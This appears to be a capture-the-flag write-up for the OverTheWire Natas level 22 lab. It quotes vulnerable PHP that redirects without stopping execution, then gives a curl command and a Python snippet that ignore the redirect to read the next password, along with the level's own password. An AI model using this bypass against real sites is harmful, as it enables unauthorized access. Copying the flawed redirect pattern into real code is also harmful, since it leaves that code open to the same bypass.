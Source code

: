 ```yaml
---
category: natas
title: Natas22 - HTTP Redirect
---
```


website: http://natas22.natas.labs.overthewire.org/ (Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ)

This challenge is very straightforward. Here is the source code:
```php
<?
if(array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
    header("Location: /");
    }
}
?>

... <skipped>

<?
    if(array_key_exists("revelio", $_GET)) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    }
?>

```

As shown above, if a GET request contains a parameter named "revelio", the website will print out the password for you. A curl command will do the job:

```shell
curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ "http://natas22.natas.labs.overthewire.org?revelio"
```

The only thing you need to be careful is that if you use a python request module to deal with this challenge, you have to disable redirection in your request because this website will auto redirect you to a non-existing page because of this line `header("Location: /");` in PHP. To disable redirect in your python request module, you can come with the following code snippet:

```python
resp = requests.get(url, auth=auth, allow_redirects=False)
```

<strong>CONCLUSION</strong>

In this challenge, when a request contains the parameter "revelio", the server will return a response `header("Location: /");`. In HTTP, this `Location:` header stands for a
redirection (typically status code 302). Once seeing this header, your web browser usually follows the location to access a new site.
Similarly, the default behavior of python's `requests` package is a redirection.

Here is a quick list of HTTP status codes:
- 1xx informational response
- 2xx successful
- 3xx redirection
- 4xx client error
- 5xx server error

